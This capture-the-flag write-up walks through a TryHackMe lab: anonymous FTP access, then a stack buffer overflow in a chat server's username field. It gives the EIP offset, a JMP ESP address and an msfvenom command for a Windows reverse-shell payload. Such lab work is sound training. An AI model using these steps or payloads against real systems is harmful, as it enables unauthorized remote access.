



# Brainstorm

### Information

Since we know the target does not respond to ICMP requests let us scan the target with the command below:



Great, we can see that there are 3 ports open:

- FTP Port 21
- RDP 3389
- Abyss 9999

I will be honest my nmap scan only discovered 3 open ports but for some reason the correct answer to the THM question is 6.

**Question** How many ports are open?

> 6


### FTP

If we try to login to the FTP server we are asked to supply a username and password. Luckily we can login anonymously with the command below:

```
ftp anonymous@$ip
```

 

Now that we are inside the first thing we should do is turn off passive mode:

```
passive
```

Do this to fix the "229 Entering Extended Passive Mode (|||\<PORT\>|)" message.

> Passive mode and active mode are two different methods that FTP clients and servers can use for establishing data connections. In active mode, the FTP server initiates the data connection to the client, while in passive mode, the client initiates the data connection to the server.


Great! Now we can list the current directory:

```
ls/dir
```

We can see that there is a **chatserver** directory we can go into.

We can see two files inside this folder: chatserver.exe and a dll file. Let's download both in binary mode:

> When you use binary mode, data is transferred as a series of 8-bit bytes, without any translation or interpretation of the data. Binary mode is commonly used for transferring non-text files, such as images, audio, video, or executable files.
>
> Note that ASCII mode is the default mode for FTP, and it translates the data from the server's native character set to the client's character set. This mode is typically used for transferring text files, such as HTML, PHP, or plain text files.
>
> To use binary mode in FTP, you can type "binary" or "bin" command in the FTP client after connecting to the FTP server.

```
binary
mget *
```

This will switch the data transfer mode to binary (which will preserve the file content without modifying it) and download both files to our Attacker machine.

Now that we have both these files, let us transfer them to our Windows Machine (I started a python HTTP server and accessed it using the browser in the Windows machine). 


### Exploiting the Buffer Overflow

Now that we have both files in the machine, let us fire up the chatserver.exe to see what this program does. The program is waiting for a connection, but what port could it be listening on?

Our port enumeration tells us we should try to connect to port 9999. When we connect to this port we can see that the executable is a simple chat application which prompts us for a username and afterwards we can type in messages which are outputted to the console.


The "max 20 characters" on the username is suspicious and might be susceptible to a buffer overflow if it is not being properly protected.

Let's fire up Immunity Debugger.

I'm going to use my [Hack-the-Stack](https://github.com/franlupo/Hack-the-Stack) scripts to help me exploit this Buffer Overflow Vulnerability. I had to make some adjustments to my original set of scripts so that they would work for this scenario. 

#### Fuzzing/Manual Crash

I did not use the fuzzer script since we are first trying to understand how big the user buffer has to be in order to crash the application. **As a side note, both the message input and the username inputs are vulnerable to buffer overflow but in our scenario we are going to take advantage of the username.** 

Hence, I used the manual crash script with different values (100, 500, 1000, 2000, 5000 and 7000). We got a crash at 7000 bytes (A * 7000) passed as the username.


#### EIP Offset

Next I used the EIP offset script to know the offset to the return address location. With a payload of 7000 bytes the EIP register had a value of:


Hence, the EIP offset is 6108 bytes.




#### EIP Control

Next, we can use the EIP Control script to make sure we have control over the return address. We can validate this since we were able to purposely fill the EIP register with BBBB.




#### Finding Bad Characters

The next step is to find bad characters using the respective script.

After checking the call stack I was not able to find a single character that was not properly interpreted. Hence, we will only consider `\x00` as a bad character.

#### JMP Pointer

Using the mona command below I was able to find several interesting addresses we could use to JMP to the ESP.

```
!mona jmp -r esp -cpb "\x00"
```


```
python 06_jmp_pointer.py <ip> 9999 6108 7000 0x625014DF
```


Great! All that is left to do is upload the payload.

#### Generate Shellcode 

We can use the following command to generate the shellcode and copy it to our nop sled script.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v shellcode
```

> Not the IP we were using to test the script, but the VPN IP address of our machine

After this we just have to launch a netcat listener, execute the script with **the ip address of the target server** and wait to get a shell (I had to wait 20 seconds for the connection to be made).

The flag is located in the drake user's Desktop.

Congratulations!
